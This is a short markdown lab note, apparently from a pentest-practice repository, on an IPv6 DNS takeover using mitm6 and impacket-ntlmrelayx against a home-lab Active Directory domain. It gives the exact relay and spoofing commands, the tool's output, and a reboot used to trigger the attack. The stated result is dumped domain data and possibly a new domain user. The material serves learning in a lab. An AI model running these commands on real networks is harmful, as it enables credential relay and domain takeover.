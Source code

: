 # IPv6 DNS Takeover via mitm6
> 03.08.2024
---
### Ip Addresses
MARVEL-DC:  `192.168.19.128`
THEPUNISHER: `192.168.19.129`
SPIDERMAN: `192.168.19.130`
HackerMan: `192.168.19.131`

**Setup ntlm relay:**
```bash
impacket-ntlmrelayx -6 -t ldaps://192.168.19.128 -wh fakewpad.marvel.local -l lootme

[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client SMB loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
```

**Running mitm6:**
```bash
sudo mitm6 -d marvel.local
```

**Rebooting PUNISHER machine for trigger:**
reboot...

**Result:**
It will create a folder that contains domain information and in the best case, create a user on the domain controller!